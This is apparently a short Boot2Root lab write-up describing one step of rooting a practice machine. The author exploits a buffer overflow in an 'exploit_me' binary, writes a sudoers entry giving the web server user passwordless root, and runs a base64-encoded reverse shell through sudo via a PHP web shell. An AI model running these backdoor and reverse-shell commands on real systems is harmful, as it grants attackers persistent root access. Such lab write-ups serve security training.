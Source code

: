 # Boot2Root - Backdoor

Starting from `Step 8 - Piscine a débordement`

## Step 8 - sudoers

We use the `exploit_me` binary buffer overflow to launch the shellcode
found at `scripts/shellcode.py`. Which gives us enough rights to launch these two commands:
```
echo "www-data ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/afile
chmod 0440 /etc/sudoers.d/afile
```

Now, `www-data`, the user of the webserver is a sudoer, which is a considerable backdoor.
We now have to launch a reverse shell with `sudo` thanks to the `shell.php`:

```
printf "<reverse shell en base64>" | base64 -d | sudo sh
```
And we are root !
